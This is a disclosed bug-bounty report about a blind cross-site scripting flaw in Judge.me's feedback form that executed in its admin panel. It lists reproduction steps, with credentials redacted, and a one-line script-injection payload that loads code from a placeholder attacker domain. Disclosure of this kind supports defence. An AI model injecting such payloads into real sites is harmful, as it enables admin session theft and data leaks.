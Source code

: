 # Blind XSS via Feedback form.

## Report Details
- **Report ID**: 1339034
- **URL**: https://hackerone.com/reports/1339034
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-09-14T02:50:57.719Z
- **Disclosed**: 2022-05-03T09:36:36.383Z

## Reporter
- **Username**: b3hlull
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: judgeme

## Vulnerability Information
## Summary:

Hi Team,

 I found Blind XSS which is triggered on the admin panel. I was trying to add widgets on the installation page for default theme. When the installation was done, I saw a question like that Are you happy with how everything looks?. I clicked the No, please remove all widgets button and then the feedback form arrives. I submitted my blind XSS payload. It triggered in 20-30 minutes on https://judge.me/admin which requires the HTTP Basic Authentication. I can't get the admin session cookie but I can collect all of the admin pages.

## Steps To Reproduce:

  1. Go to https://odo-tester.myshopify.com/admin/ and login with the test credentials.** (credentials in the Credentials Header)**
  1. Click the **Apps** tab from the left side and then click **Judge.me Product Reviews**.
  1. Click** Add Widgets** then **Start Installation** and continue.
  1. When the installation is done. It asks **Are you happy with how everything looks?**. Choose  **No, please remove all widgets button**. Feedback form appears and put your blind xss payload.
  1. Wait for payload triggering.

## Supporting Material/References:

Vulnerable Page URL : https://judge.me/admin/████████
Referer: https://judge.me/admin/███

Cookies:```http
██████████████ ```


## Credentials

```http
email:  ██████████@yopmail.com
password: ███████
tempmail: https://yopmail.com/?judgeme-███████████ ( it can be necessary when you are login )
payload: "><script src=https://yourxssdomain></script>
```

 Admin Page
=====================
█████
Vulnerable Page
=====================
███████ 
Steps to Reproduce Video
=====================
████

## Impact

Blind XSS leads to access the admin panel. It may contain information leaks about other shop owners' reports. Executes javascript code on admin panel. Stealing admin cookies.

## Attachments
No attachments
